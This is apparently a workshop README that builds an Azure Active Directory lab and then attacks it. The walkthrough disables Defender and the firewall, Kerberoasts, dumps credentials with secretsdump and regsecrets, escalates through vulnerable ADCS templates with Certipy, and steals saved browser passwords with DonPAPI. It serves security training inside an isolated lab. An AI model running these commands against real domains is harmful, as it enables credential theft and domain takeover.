



# Welcome to Lab Building 101

This repo was created for the gracious folks at Wild West Hackin' Fest, who picked us up, dusted us off and said "here's another chance guys, go get 'em!" ...and who gave us an opportunity to run a rapid fire workshop.

Anyway, here's how the Defensive Origins crew builds labs!


# Table of Contents

1. [Lab Building 101](#welcome-to-lab-building-101)
2. [Building a Lab on Azure with ARM](#building-a-lab-on-azure-with-arm)
3. [Connecting to Infrastructure](#connecting-to-infrastructure)
4. [Installing Tools Rapid Fire Style](#installing-tools-rapid-fire-style)
5. Tools:
    - Badblood
    - Impacket GetADUsers.py
    - Impacket GetUsersSPNs.py
    - Impacket Secretsdump.py
    - Impacket smbexec.py
    - Impacket getTGT.py
    - Impacket addcomputer.py
    - Impacket regsecrets.py
    - Windows ADCS
    - PowerShell ADCSTemplate 
    - Certipy (Find/Request/Auth)
    - DonPAPI


# Contributors

The great [Alyssa Snow](https://github.com/SleepyStudnt).  
The great [Kaitlyn Wimberly](https://github.com/Kadawi).  
The great [Jordan Drysdale](https://github.com/rev10d).  
The great [Kent Ickler](https://github.com/Relkci).  

# Building a Lab on Azure with ARM

Time to deploy: **Approximately 30-60 minutes**

Authenticate to your Azure portal: 

| &#x1f30e; URL | Browser on Student's Local System |
|---------------|----------------------------------|
```url
https://portal.azure.com
```

Then, go to the hosted ARM template resource page on a new browser tab:

| &#x1f30e; URL | Browser on Students Local System |
|---------------|----------------------------------|
```url
https://www.doazlab.com
```

About half way down the page, click the **Deploy to Azure** button.

|  | 
|------------------------------------------------|

Select your subscription, resource group, and location. Document this location, it will be needed later in class.

|  | 
|------------------------------------------------|

The default VM size is B2s, which are burstable, low cost, and efficient VMs. You can bump this up to larger should you choose. 

|  | 
|------------------------------------------------|

Your next configuration option is the network ranges allowed to access this lab's public IP addresses. We will investigate some Internet-based threats later and recommend leaving this wide open to the configured all zeroes (0.0.0.0/0) range. 

|  | 
|------------------------------------------------|

One more click will bring you to the validation check. After a moment, you can click on Create to start the build process for your ADD Lab Environment.

|  | 
|------------------------------------------------|

The process takes between 30 and 60 minutes to fully deploy. The deployment confirmation shown next is indicative of a successful build. 

|  | 
|------------------------------------------------|

The **Outputs** option in the left navigation tree includes the access details you will need for SSH and RDP access into the lab environment. Document these IP addresses as you will need them later to access your lab infrastructure.

|  | 
|------------------------------------------------|

A visual aid for your lab deployment is shown in the next image. 

|  | 
|------------------------------------------------|


# Connecting to Infrastructure 

<!-- DO-CREDENTIAL-REMINDER-START -->
<Details><summary>

## &#x1F512; Lab Credentials

</summary><blockquote>

### &#x1FA9F; Windows credentials

When logging into the Windows system, use the following credentials.

```Win-creds
doazlab\doadmin
DOLabAdmin1!
```

### &#x1F427; Linux credentials

When logging into the Linux system, use the following credentials.

```Linux-creds
doadmin
DOLabAdmin1!
```

</blockquote></details>

<!-- DO-CREDENTIAL-REMINDER-END -->
<Details><summary>

## &#x2460; Lab Deployment Network Connectivity 

</summary><blockquote>

The screenshot in this section demonstrates the output values from the course ARM template deployment. Each build will differ. You will need all of these at various points throughout the workspace material. You should keep them handy in a notes document or similar quick-reference.

|  | 
|------------------------------------------------|


&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>


<Details><summary>

## &#x2461; Establish RDP Connections (from Linux) 

</summary><blockquote>

Establish RDP to the workstation and domain controller (Linux with Remmina)

From Linux, you can use the Remmina remote desktop (RDP) client software.

|  | 
|------------------------------------------------|

| &#x26a0; Note | Be sure to include the domain on the initial RDP connections.|
|---------------|--------------------------------------------------------------|

```Win-creds
doazlab\doadmin
DOLabAdmin1!
```

Establish an RDP connection to the IP address of your lab's domain controller. You will be prompted to accept a certificate that should match **DC01.doazlab.com**.

|  | 
|------------------------------------------------|

Establish an RDP connection to the IP address of your lab's workstation. You will be prompted to accept a certificate that should match **WS05.doazlab.com**.

|  | 
|------------------------------------------------|

The domain controller will prompt you to accept the discovery settings. The lab is isolated and general guidance is to click **Yes**. 

|  | 
|------------------------------------------------|

The first login to the workstation will require approximately ten minutes to fully build the user profile and desktop environment. 

|  | 
|------------------------------------------------|

&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>


<Details><summary>

## &#x2462; Establish Remote Desktop Connections (from Windows) 

</summary><blockquote>

Establish RDP connections to the workstation and domain controller (Windows terminal services client)

The following screenshot includes an **example** mstsc connection string. *Your IP address will differ.*

|  | 
|------------------------------------------------|

Be sure to include the domain on the initial RDP connections.

```Win-creds
doazlab\doadmin
DOLabAdmin1!
```

|  | 
|------------------------------------------------|

Establish an RDP connection to the IP address of your lab's domain controller. You will be prompted to accept a certificate that should match **DC01.doazlab.com**.

|  | 
|------------------------------------------------|

Establish an RDP connection to the IP address of your lab's workstation. You will be prompted to accept a certificate that should match **WS05.doazlab.com**.

|  | 
|------------------------------------------------|

The domain controller will prompt you to accept the discovery settings. This lab is isolated and general guidance is to click **Yes**.

|  | 
|------------------------------------------------|

The first login to the workstation will require approximately ten minutes to fully build the user profile and desktop environment. The desktop background includes bginfo.exe as a desktop background for quick reference as to which system you have accessed. 

|  | 
|------------------------------------------------|

Run the following command on the workstation from the Admin PowerShell prompt as shown in the subsequent screenshot. Note that there is a linked PowerShell Admin invoker on the desktop.

```PowerShell
Set-NetFirewallProfile -Profile Domain, Public, Private -Enabled False
```

This is shown in the next screenshot.

|  | 
|------------------------------------------------|

Also, defang AV with the following commands.
| &#x1FA9F; PowerShell Input | Workstation: WS05 |
|----------------------------|-------------------|
```PowerShell
New-Item -ItemType Directory -Path "C:\DOAZLab" -Force > $null
Set-MpPreference -ExclusionPath 'c:\users\doadmin'
Set-MpPreference -ExclusionPath 'c:\DOAZLab'
Set-MpPreference -ExclusionProcess "powershell.exe", "cmd.exe"
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableScriptScanning $true
Set-MpPreference -EnableControlledFolderAccess Disabled
Set-MpPreference -EnableNetworkProtection AuditMode
Set-MpPreference -Force -MAPSReporting Disabled
Set-MpPreference -SubmitSamplesConsent NeverSend

```

&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>


<Details><summary>

## &#x2463; Establish SSH Connection 

</summary><blockquote>

| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
ssh doadmin@'YOUR-PUB-C2-IP'
```

```Linux-creds
doadmin
DOLabAdmin1!
```

|  | 
|------------------------------------------------|

Did you know you can SSH directly from Windows 11 without additional installation, packages, or software? You can, straight from PowerShell.

| &#x1FA9F; PowerShell Input |
|-----------------------|
```PowerShell
ssh doadmin@'YOUR-PUB-C2-IP'
```

|  | 
|------------------------------------------------|

&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>


# Installing Tools Rapid Fire Style

<Details><summary>

## &#x2460; Installing A Few Tools

</summary><blockquote>

You need root perms for most of the tools in this lab, so `sudo` up partner.

```bash
sudo -s

```

A bunch of tools onto your Linux system during the build process, [check the install list here](https://github.com/DefensiveOrigins/DO-LAB/blob/main/Deploy-Linux/scripts/Install-Tools.sh). We regularly wrap python tools in virtual environments, so be prepared to `activate` and `deactivate`. Also, you should install a virtual environment wrapper like **virtualenv**, **venv**, **pipx** when you install python tools. 

You could use `apt`.

```bash
# install python tooling venv framework
apt install python3-virtualenv -y 

```

Or, you could use `pip`. 

```bash
pip3 install virtualenv

```

One of the tools not installed via bootstrap on the Linux box was [DonPAPI](https://github.com/login-securite/DonPAPI). This is a browser shredder and much more. Copy and paste the following block into your Linux terminal to install `DonPAPI`. 

```bash
cd /opt/
git clone https://github.com/login-securite/DonPAPI
cd DonPAPI
virtualenv -p python3 dp-env
source dp-env/bin/activate
python3 -m pip install .
DonPAPI -h

```


&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>


<Details><summary>

## &#x2461; Let's Make A Big Mess of Active Directory

For testing things and making the lab enviro more interesting!

</summary><blockquote>

Jump over to the **dc01** RDP session. 

## BadBlood

BadBlood makes a mess out of an existing AD lab environment, your production AD, or anywhere you run this. ** This is dangerous!!! DO NOT RUN IN PRODUCTION AD ** 

### &#x1FA9F; Windows credentials

When logging into the Windows system, use the following credentials.

```Win-creds
doazlab\doadmin
DOLabAdmin1!
```

Download and invoke [BadBlood](https://github.com/davidprowe/BadBlood).

** This is dangerous!!! DO NOT RUN IN PRODUCTION ** 

Paste the following commands into a PowerShell terminal session on the domain controller. 

| &#x1FA9F; PowerShell Input | Domain Controller: DC01 |
|----------------------------|-------------------------|
```PowerShell
$ProgressPreference = 'SilentlyContinue' 
invoke-webrequest -URI https://github.com/Relkci/BadBlood/archive/refs/heads/master.zip -outfile badblood.zip 
Expand-Archive .\badblood.zip 
$ProgressPreference = 'Continue' 
./badblood/BadBlood-master/invoke-badblood.ps1

```

|  | 
|------------------------------------------------|

Three strikes against the enter key will result in a prompt to confirm your intentions. Again, *DO NOT RUN THIS IN PRODUCTION**. The `badblood` key word will then result in the creation of various AD objects, ACL tampering, and general pollution of your doazlab.com forest.

| &#x1FA9F; PowerShell Input | Domain Controller: DC01 |
|----------------------------|-------------------------|
```PowerShell
 [ENTER] x 3
 badblood
```

Some errors are expected. 

|  | 
|------------------------------------------------|

**Exit PowerShell's AD> Prompt!**

| &#x1FA9F; PowerShell Input | Domain Controller: DC01 |
|----------------------------|-------------------------|
```PowerShell
exit
```

&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>


<Details><summary>

## &#x2462; Go Check Out the Builder Code

"In the silence of the shadows, the wise do not merely wield their swords; they study the forge that shapes them. For it is not the weapon, but the understanding of its purpose, that leads to the unraveling of the hidden and the protection of the realm." -duckduckAI

</summary><blockquote>

Original credit and inspiration for the architecture is due to [Roberto Rodriguez](https://github.com/Cyb3rWard0g) and his work on [Microsoft-Sentinel2Go](https://github.com/OTRF/Microsoft-Sentinel2Go).

The lab architecture code is [out on Github](https://github.com/DefensiveOrigins/DO-LAB/blob/main/README.md) and has been shared many times. Fork away.

The C2 builder and tool installer bootstrap was created and originally shared by the [absolutely brilliant Phil Miller](https://github.com/mr-pmillz) and is [available out here](https://github.com/DefensiveOrigins/DO-LAB/blob/main/Deploy-Linux/scripts/Install-Tools.sh).

&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>


### Finally Time To Run Some Tools

<!-- DO-CREDENTIAL-REMINDER-START -->
<Details><summary>

## &#x1F512; Lab Credentials

</summary><blockquote>

### &#x1FA9F; Windows credentials

When logging into the Windows system, use the following credentials.

```Win-creds
doazlab\doadmin
DOLabAdmin1!
```

### &#x1F427; Linux credentials

When logging into the Linux system, use the following credentials.

```Linux-creds
doadmin
DOLabAdmin1!
```

</blockquote></details>
<!-- DO-CREDENTIAL-REMINDER-END -->


## &#x2460; Activate Impacket Virtual Environment 

</summary><blockquote>

_Conduct Lab Operations from Linux Host Nux01_

Prepare the Python virtual environment (venv) to containerize Impacket's dependencies. Run the following commands to activate the environment and list the tools of Impacket.

Ensure you are root with sudo. 

| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
sudo -s
```

Run the next commands as a code-block to instantiate the venv and list the Python tools in the impacket repo.

| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
deactivate
cd /opt/impacket
source /root/pyenv/impacket/bin/activate
cd /opt/impacket/examples
ls
```

|  | 
|------------------------------------------------|

&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>

<Details><summary>

## &#x2461; Get AD Users 

</summary><blockquote>

**Get Active Directory User Information**

This Python class was written to enumerate AD users as either individuals or all users. We are going to use it here to gather a list of users from the Active Directory environment and for later use as the user list for password spraying.
<br />

The following command is used to dump the list of AD users to the console and to create a file (tee) in the /opt/ directory called adusers.txt.

| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
GetADUsers.py -all -ts doazlab.com/doadmin:'DOLabAdmin1!' -dc-ip 192.168.2.4 |tee -a /opt/adusers.txt

```

|  |
|------------------------------------------------|

&#x21E8; *Step complete. Go to the next step!*

</blockquote></details>


<Details><summary>

## &#x2462; Interrogate Service Principals 

</summary><blockquote>

All members of the "Domain Users" group can request a service ticket for any account with a configured service principal name (SPN). This is the attack known as "Kerberoasting". The krbtgt's response to the requested service ticket operation includes a potentially crackable password hash.

Let's gather hashes from the accounts running with assigned service principal names (SPNs). Why? These are the accounts that any domain user can request Kerberos service tickets for. Thus, the Kerberoast attack.


| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
mkdir /opt/hashes/
GetUserSPNs.py 'doazlab.com'/'doadmin':'DOLabAdmin1!' -dc-ip 192.168.2.4 -outputfile /opt/hashes/kerbs.txt
cat /opt/hashes/kerbs.txt |less -S
```

|  |
|------------------------------------------------|

Use either `CTRL + C` or `q` to exit this view.

The SPN hashes were saved to file /opt/hashes/kerbs.txt

&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>


<Details><summary>

## &#x2463; Secretsdump Remote Access

</summary><blockquote>

We are next going to take some liberties with our privileged position to check out Secretsdump. This tool will attempt to gather credential material from a remote system to which the analyst has recovered some form of privileged credentials.

The account credential used to access the environment has sufficient privilege to start the RemoteRegistry service and access credential material through the various secrets storage locations in Microsoft's operating systems. The next command uses secretsdump.py to attempt a remote credential dump and the tee -a command to write STDOUT to a file in the /opt/hashes/ directory.


| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
mkdir /opt/hashes 
secretsdump.py doazlab/doadmin:'DOLabAdmin1!'@192.168.2.5 |tee -a /opt/hashes/secrets-output.txt
```

You will be prompted for a password. 


| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
DOLabAdmin1!
```

|  |
|------------------------------------------------|

&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>


<Details><summary>

## &#x2465; Establish Semi-Interactive SMB Shell

</summary><blockquote>


The smbexec.py utility establishes a semi-interactive shell to a remote host. This is not an opsec safe tool and will get caught by most EDR products.

| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
python3 smbexec.py doazlab.com/doadmin:'DOLabAdmin1!'@192.168.2.5
```

| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
net localgroup administrators
ipconfig
whoami
hostname
nslookup doazlab.com
netsh advfirewall set allprofiles state off
exit

```

|  |
|------------------------------------------------|

&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>


<Details><summary>

## &#x2466; Request a Ticket as doadmin 

</summary><blockquote>


The getTGT.py utility is used to request authentication tickets (Kerberos) from a known username and password (or hash) combination. 

| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
python3 getTGT.py -dc-ip 192.168.2.4 doazlab.com/doadmin:'DOLabAdmin1!'
```

|  |
|------------------------------------------------|

| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
ls
export KRB5CCNAME=/opt/impacket/examples/doadmin.ccache
```

The export process is shown in the next screenshot. 

|  |
|------------------------------------------------|

Install some additional packages for Kerberos on the Linux box with the following command.

```bash
apt-get install krb5-user libpam-krb5 libpam-ccreds -y
```

Then run `klist` to take a peek at the exported ticket[s]. After export, the ticket should look something like the following.

|  |
|------------------------------------------------|

&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>


<Details><summary>

## &#x2467; Add Computer Object via Kerberos Authentication

</summary><blockquote>

Let's use the Kerberos ticket we grabbed with getTGT.py to add a computer object to the domain. Always remember - any user can add up to ten computers to a domain by default (MS-DS-MachineAccountQuota). Trust us, you need to learn to how to use ticketing and ticketing related tools. NTLM will eventually be deprecated. 


| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
python3 addcomputer.py -computer-name lowprivPC -computer-pass L0wPr1VSys -k -no-pass -dc-ip 192.168.2.4 doazlab.com/doadmin:'DOLabAdmin1!'@192.168.2.4 -dc-host dc01
```

|  |
|------------------------------------------------|

&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>


<Details><summary>

## &#x2468; Use Regsecrets with a Kerberos Ticket 

</summary><blockquote>

The regsecrets.py utility was designed as an improvement on the secretsdump.py utility. Regsecrets.py conducts a fileless interrogation of a targeted system's registry. 
<br />

Take a look at the tool's help file too. Kent says: "Know your tools."


| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
python3 regsecrets.py
```

|  |
|------------------------------------------------|


Use the following command to quietly and filelessly dump creds from the WS05 system. 

| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
python3 regsecrets.py -k -no-pass -dc-ip 192.168.2.4 doazlab.com/doadmin@ws05.doazlab.com |tee -a /opt/hashes/192-168-2-5-secrets
```

|  |
|------------------------------------------------|

&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>


<Details><summary>

## &#x2469; Extras from here out. 

</summary><blockquote>

This lab is designed to teach participants how to install Active Directory Certificate Services (ADCS), import certificate templates using PowerShell and assess these vulnerabilities using Certipy. 

<br />


_Conduct Lab Operations from Domain Controller DC01_

Launch PowerShell on domain controller and install some important ADCS features. 

| &#x1FA9F; PowerShell Input | Domain Controller: DC01 |
|----------------------------|-------------------------|
```PowerShell
Get-WindowsFeature -Name AD-Certificate | Install-WindowsFeature
Add-WindowsFeature Adcs-Cert-Authority -IncludeManagementTools
```

|  | 
|------------------------------------------------|

| &#x1F427; PowerShell Input | Linux Host: DC01 |
|----------------------|-------------------|

Next, we will download previously exported templates.  First, enter the c:\add folder.

| &#x1FA9F; PowerShell Input | Domain Controller: DC01 |
|----------------------------|-------------------------|
```PowerShell
mkdir c:\add
cd c:\add
```

Next, download the templates with PowerShell

| &#x1FA9F; PowerShell Input | Domain Controller: DC01 |
|----------------------------|-------------------------|
```PowerShell
$wc = new-object System.Net.WebClient
$wc.DownloadFile('https://raw.githubusercontent.com/DefensiveOrigins/ADD_Extras/main/ADCS/DOAZLab_Computer.json', 'c:\add\DOAZLab_Computer.json')
$wc.DownloadFile('https://raw.githubusercontent.com/DefensiveOrigins/ADD_Extras/main/ADCS/DOAZLab_User.json', 'c:\add\DOAZLab_User.json')
$wc.DownloadFile('https://raw.githubusercontent.com/DefensiveOrigins/ADD_Extras/main/ADCS/DOAZLab_IPSec.json', 'c:\add\DOAZLab_IPSec.json')
ls c:\add
```

|  |
|------------------------------------------------|

Next, import the certificate templates that were downloaded.

| &#x1FA9F; PowerShell Input | Domain Controller: DC01 |
|----------------------------|-------------------------|
```PowerShell
net1 user noprivuser N0PrivU53R /add /domain 
Install-Module ADCSTemplate -Force
New-ADCSTemplate -DisplayName DOAZLab_Computer -JSON (Get-Content c:\add\DOAZLab_Computer.json -Raw) -Publish
New-ADCSTemplate -DisplayName DOAZLab_User -JSON (Get-Content c:\add\DOAZLab_User.json -Raw) -Publish
New-ADCSTemplate -DisplayName DOAZLab_IPSec -JSON (Get-Content c:\add\DOAZLab_IPSec.json -Raw) -Publish
Set-ADCSTemplateACL -DisplayName DOAZLab_Computer  -Enroll -Identity 'DOAZLab\Domain Computers'
Set-ADCSTemplateACL -DisplayName DOAZLab_User  -Enroll -Identity 'DOAZLab\Domain Users'
Set-ADCSTemplateACL -DisplayName DOAZLab_IPSec -Enroll -Identity 'DOAZLab\Domain Users'
```

|  |
|------------------------------------------------|


_Conduct Lab Operations from Linux Host Nux01_

Here, you will access a privileged terminal session, activate a virtual environment, and ask Certipy to find vulnerable ADCS templates. 

The next command should not require a password (passwordless sudo).


| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
sudo -s
```

|  |
|------------------------------------------------|

Next, we will run Certipy to assess the ADCS environment.

| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
cd /opt/Certipy
source /root/pyenv/Certipy/bin/activate
certipy find -vulnerable -target-ip 192.168.2.4 -u noprivuser@doazlab.com -p 'N0PrivU53R' -output adcs-vulns
```

|  |
|------------------------------------------------|

Inspect the produced results with the following command.

| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
cat adcs*.txt
```

|  |
|------------------------------------------------|

In the next step, we will attempt to exploit one of the weak certificate templates. But, first we need to find a user SID and set a var. Basically, Microsoft tried to fix a thing with a cheesy little "protection" mechanism that required a user's SID to be submitted with a certificate request. Legit, this went from an MS patch to not fixed anymore was like 17 seconds. 

| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
DOADMINSID=$(rpcclient -U noprivuser%'N0PrivU53R' 192.168.2.4 -c "lookupnames doadmin" | awk '{print $2}') 
printf "\n $DOADMINSID \n\n"
certipy req -target-ip 192.168.2.4 -u noprivuser@doazlab.com -p 'N0PrivU53R' -ca doazlab-DC01-CA -template DOAZLab_User -dc-ip 192.168.2.4 -upn doadmin@doazlab.com -sid $DOADMINSID
```

|  |
|------------------------------------------------|

UnPac the Hash Attack

| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
certipy auth -pfx doadmin.pfx -dc-ip 192.168.2.4
```

|  |
|------------------------------------------------|

&#x21E8; *Step Complete, Go to the next step!*

On the workstation, WS05, open all three installed browsers and paste the site link below into each browser's address bar. 

| &#x1f30e; URL | Browsers on Workstation WS05 |
|---------------|----------------------------------|
```url
http://testphp.vulnweb.com/login.php
```

Chrome will probably try and social engineer one of your personal accounts. Click the **Don't sign in** button in the bottom right corner of the open Chrome window.

|  |
|------------------------------------------------|

Also click the **Skip** button on the next page.

|  |
|------------------------------------------------|

And also, yeah, click through the **Got it** button regarding Chrome's *Enhanced ad privacy*.

|  |
|------------------------------------------------|

Finally, drop the URL in all the browser address bars. 

```
http://testphp.vulnweb.com/login.php
```

|  |
|------------------------------------------------|

Enter the following credentials in the respective browsers. 

Chrome Input:
- Username: `chromeuser`
- Password: `chromepass1!`

After inputting username and password values, follow the operations described below and shown in the subsequent screenshot. 

1. Click **Login** button.
2. Click the circled **key** in the right portion of the address bar.
3. Click **Save** to retain the credential in the browser.

|  |
|------------------------------------------------|

Firefox:
- Username: `ffuser`
- Password: `firefoxpass1!`

Firefox should prompt you to save any credential entered in this form. So, enter the credential and click **Login**.

|  |
|------------------------------------------------|

As shown next, you should be prompted to save the credential. Click **Save**. 

|  |
|------------------------------------------------|

Edge:
- Username: `edgeuser`
- Password: `edgepass1!`

The process for saving the password in Edge is similar. After clicking **Login**, click the ellipsis at the far right of the address bar. You will be prompted to and should click on **Manage Passwords**.

|  |
|------------------------------------------------|

After clicking on **Manage Passwords**, you should be prompted to save the `edgeuser` credential entered in this form. 

|  |
|------------------------------------------------|


The following command will gather all passwords stored in browsers on the WS05 system at 192.168.2.5.

| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|

```bash
deactivate
cd /opt/DonPAPI
source dp-env/bin/activate

donpapi collect -u doadmin -p 'DOLabAdmin1!' -t 192.168.2.5 --domain doazlab.com

```

|  |
|------------------------------------------------|


Open a browser and search `stealer logs 101`.

An interesting link: https://www.zerofox.com/blog/an-introduction-to-stealer-logs/

</blockquote></details>

# Defensive Origins Classes at Antisyphon Training

Defensive Origins offers the following classes at [Antisyphon Training](https://www.antisyphontraining.com):

- **Assumed Compromise**  
  [https://www.antisyphontraining.com/assumed-compromise/](https://www.antisyphontraining.com/assumed-compromise/)

- **Active Directory Security Hardening**  
  [https://www.antisyphontraining.com/product/active-directory-security-and-hardening-with-jordan-drysdale-and-kent-ickler/](https://www.antisyphontraining.com/product/active-directory-security-and-hardening-with-jordan-drysdale-and-kent-ickler/)
